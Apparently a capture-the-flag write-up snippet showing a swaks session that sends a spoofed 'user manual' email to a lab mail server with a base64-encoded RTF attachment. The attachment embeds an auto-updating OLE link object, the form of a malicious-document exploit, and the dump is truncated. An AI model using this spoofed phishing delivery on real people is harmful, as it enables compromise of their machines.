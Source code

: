 ```bash
$ swaks --to nico@megabank.com --from tgihf@megabank.com --header 'Subject: User Manual v2.0.1 Revision' --body "Here's the latest revision on the user manual, Nico. I might have more revisions for you later." --server 10.129.1.151 --attach @Manual.rtf
=== Trying 10.129.1.151:25...
=== Connected to 10.129.1.151.
<-  220 Mail Service ready
 -> EHLO attack.tgif.home
<-  250-REEL
<-  250-SIZE 20480000
<-  250-AUTH LOGIN PLAIN
<-  250 HELP
 -> MAIL FROM:<tgihf@megabank.com>
<-  250 OK
 -> RCPT TO:<nico@megabank.com>
<-  250 OK
 -> DATA
<-  354 OK, send.
 -> Date: Thu, 11 Nov 2021 17:48:37 -0500
 -> To: nico@megabank.com
 -> From: tgihf@megabank.com
 -> Subject: User Manual v2.0.1 Revision
 -> Message-Id: <20211111174837.030115@attack.tgif.home>
 -> X-Mailer: swaks v20201014.0 jetmore.org/john/code/swaks/
 -> MIME-Version: 1.0
 -> Content-Type: multipart/mixed; boundary="----=_MIME_BOUNDARY_000_30115"
 ->
 -> ------=_MIME_BOUNDARY_000_30115
 -> Content-Type: text/plain
 ->
 -> Here's the latest revision on the user manual, Nico. I might have more revisions for you later.
 -> ------=_MIME_BOUNDARY_000_30115
 -> Content-Type: application/octet-stream; name="@Manual.rtf"
 -> Content-Description: @Manual.rtf
 -> Content-Disposition: attachment; filename="@Manual.rtf"
 -> Content-Transfer-Encoding: BASE64
 ->
 -> e1xydGYxXGFkZWZsYW5nMTAyNVxhbnNpXGFuc2ljcGcxMjUyXHVjMVxhZGVmZjMxNTA3XGRlZmYw
 -> XHN0c2hmZGJjaDMxNTA1XHN0c2hmbG9jaDMxNTA2XHN0c2hmaGljaDMxNTA2XHN0c2hmYmkzMTUw
 -> N1xkZWZsYW5nMTAzM1xkZWZsYW5nZmUyMDUyXHRoZW1lbGFuZzEwMzNcdGhlbWVsYW5nZmUyMDUy
 -> XHRoZW1lbGFuZ2NzMAp7XGluZm8Ke1xhdXRob3IgfQp7XG9wZXJhdG9yIH0KfQp7XCpceG1sbnN0
 -> Ymwge1x4bWxuczEgaHR0cDovL3NjaGVtYXMubWljcm9zb2Z0LmNvbS9vZmZpY2Uvd29yZC8yMDAz
 -> L3dvcmRtbH19CnsKe1xvYmplY3Rcb2JqYXV0bGlua1xvYmp1cGRhdGVccnNsdHBpY3Rcb2JqdzI5
 -> MVxvYmpoMjMwXG9ianNjYWxleDk5XG9ianNjYWxleTEwMQp7XCpcb2JqY2xhc3MgV29yZC5Eb2N1
 -> bWVudC44fQp7XCpcb2JqZGF0YSAwMTA1MDAwMDAyMDAwMDAwCjA5MDAwMDAwNGY0YzQ1MzI0YzY5
 -> NmU2YjAwMDAwMDAwMDAwMDAwMDAwMDAwMGEwMDAwCmQwY2YxMWUwYTFiMTFhZTEwMDAwMDAwMDAw
 -> MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDNlMDAwMzAwZmVmZjA5MDAwNjAwMDAwMDAwMDAwMDAwMDAw
 -> MDAwMDAwMTAwMDAwMDAxMDAwMDAwMDAwMDAwMDAwMDEwMDAwMDAyMDAwMDAwMDEwMDAwMDBmZWZm
 -> ZmZmZjAwMDAwMDAwMDAwMDAwMDBmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZm
 -> ZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZgpm
 -> ZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZm
 -> ZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZm
 -> ZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZm
 -> ZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZm
 -> ZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmYKZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZm
 -> ZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZm
 -> ZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZm
 -> ZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZm
 -> ZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmCmZmZmZmZmZm
 -> ZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZm
 -> ZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZm
 -> ZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZm
 -> ZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZmZm
 -> ZmZmZmZmZmZmZmZmZmZmZgpmZmZmZmZmZmZmZmZmZmZmZmRmZmZmZmZmZWZmZmZmZmZlZmZmZmZm
```